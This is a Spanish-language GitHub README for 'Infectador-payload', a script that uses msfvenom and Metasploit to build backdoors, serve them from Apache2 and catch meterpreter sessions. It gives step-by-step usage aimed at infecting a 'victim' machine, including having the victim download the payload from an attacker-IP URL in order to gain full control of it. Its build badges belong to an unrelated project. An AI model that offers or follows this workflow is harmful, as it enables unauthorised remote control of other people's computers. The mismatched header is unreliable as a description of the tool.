 # Infectador-payload

[![GoDoc](https://godoc.org/github.com/moby/buildkit?status.svg)](https://godoc.org/github.com/moby/buildkit/client/llb)
[![Build Status](https://github.com/moby/buildkit/workflows/build/badge.svg)](https://github.com/moby/buildkit/actions?query=workflow%3Abuild)
[![Go Report Card](https://goreportcard.com/badge/github.com/moby/buildkit)](https://goreportcard.com/report/github.com/moby/buildkit)
[![codecov](https://codecov.io/gh/moby/buildkit/branch/master/graph/badge.svg)](https://codecov.io/gh/moby/buildkit)

Herramienta perfecta para crear cargas utiles (Backdoors) a una alta velocidad, esta herramienta preside de diferentes opciones, incluiendo la opcion de poder subir tu carga util a un servidor web (apache2).

![backdoor](https://user-images.githubusercontent.com/69093629/104139012-b4ed6500-53a8-11eb-933c-95a869b21c6a.png)

- **INTERFAZ: Grafica**

- **IMPORTANTE: Para utilizar esta herramieta debes tener conocimientos medios en Linux ya que sino no sabras que es lo que estas haciendo.**

- **HERRAMIENTA: Automatizada**

## Pre-requisitos 📋

* [Metaploit](https://www.metasploit.com/) 
* [xterm](https://es.wikipedia.org/wiki/Xterm) 

**Instalar Metasploit**
```
sudo apt-get install -y postgresql
```
```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
```
**Instalar Xterm**
```
apt-get install xterm 
```
## Instalacion ✅
```
git clone https://github.com/WackyHacker/Infectador-payload
```
```
cd Infectador-payload 
```
```
sudo su
```
```
bash Infectador-payload.sh
```

## Construido con 🛠️

* [Metasploit](https://www.metasploit.com/) - Despliege de carga util
* [Msfvenom](https://www.metasploit.com/) - Creador de cargas utiles
* [Apache2](https://httpd.apache.org/) - Servidor web

## Autor ✒️

* **WackyHacker** - *Todo el proyecto* - [WEIK](https://github.com/WackyHacker)

## Licencia 📄

Este proyecto esta bajo Licencia - mira el archivo [LICENSE](https://github.com/WackyHacker/Infectador-payload/blob/master/LICENSE) para mas detalles

## ¿Como funciona?

Antes de ejecutar la herramienta con ```sudo bash Infectador-payload```, ejecuta primero ```sudo su``` y después ejecuta ```bash Infectador-payload```, si no se hace puede que de problemas en el futuro.


![Captura de pantalla (34)](https://user-images.githubusercontent.com/69093629/104134506-41d4f600-538a-11eb-8aff-79a331979e98.png)


Una vez la herramienta ya esta ejecutada correctamente, se vera algo asi.


![Captura de pantalla (32)](https://user-images.githubusercontent.com/69093629/104134712-c5431700-538b-11eb-8f40-816c6b25a571.png)


Utilizarla es muy sencillo solo hay que seleccionar la opción a utilizar (la ultima esta en mantenimiento), una vez elegida debemos seleccionar la carga útil de nuestra preferencia.


![videosito](https://user-images.githubusercontent.com/69093629/104136758-66d06580-5398-11eb-9526-58302e9f286b.gif)


Una vez elegidas las opciones de preferencia a utilizar, hay que escribir el ```LHOST=[IP]``` , ```LPORT=[PUERTO]```>[Recomendable: 4444], el nombre de tu Backdoor sin su extensión [EX: exe, py] , y finalmente la ruta donde quieres guardar el Backdoor (ojo si eliges que el ataque se efectúe fuera de la red LAN >ngrok< la víctima no podra descargar e instalar el Backdoor a menos que este conectada en la misma red WI-FI que tu) si eliges sin querer subir tu Backdoor a un servidor apache2, para arreglarlo o pulsamos CTRL + C para salir de la herramienta, o puedes acceder a la ruta donde está alojado el servidor apache2 con este comando ```cd /var/www/html/``` y tu Backdoor estará ahí, para no tener problemas, cuando te pida que digites una ruta para guardar el Backdoor, pulsa 'ENTER' y se te guardará automáticamente en el mismo directorio que estás ahora mismo en la carpeta Backdoors.


Y se empezará a crear el Backdoor satisfactoriamente...


![video2](https://user-images.githubusercontent.com/69093629/104136537-2cb29400-5397-11eb-8d1d-3ffdea3bd598.gif)


Una vez termine de crearse la carga util nos hara dos preguntas la primera es '¿Quieres eliminar el Backdoor...?' le pondremos que no de lo contrario 
nos lo eliminara y tendremos que crear uno de nuevo, la segunda es '¿Quieres iniciar Metasploit?' aqui puedes o poner que si o abrir una nueva terminal y abrirlo manualmente.


![Captura de pantalla (42)](https://user-images.githubusercontent.com/69093629/104138852-61c6e280-53a7-11eb-806e-595e7e76e1f7.png)


Una vez todo hecho quedaria algo asi:


![Captura de pantalla (45)](https://user-images.githubusercontent.com/69093629/104149184-876ae080-53d5-11eb-9dfe-7e5966302165.png)


Ahora solo faltaria copiar la seccion que pone 'COPIE Y PEGUE ESTO EN METASPLOIT' lo copiamos y lo pegamos o lo hacemos manualmente, una vez hecho se nos quedaria en escucha nuestra carga util. Ahora iremos a nuestro ordenador victima y instalaremos la carga util de esta manera ``` http://[IP ATACANTE]/[nombre.exe] ``` 


![Captura de pantalla (46)](https://user-images.githubusercontent.com/69093629/104138953-355f9600-53a8-11eb-8fbb-5cd5825e6b06.png)


Una vez el Backdoor instalado a nuestro ordenador victima le llegara una conexion 'meterpreter' eso quiere decir que ya tendremos control total del ordenador victima.


![Captura de pantalla (47)](https://user-images.githubusercontent.com/69093629/104149114-5d192300-53d5-11eb-9c12-d6a2944c5568.png)


¡Dejame una ★ si te ha servido!




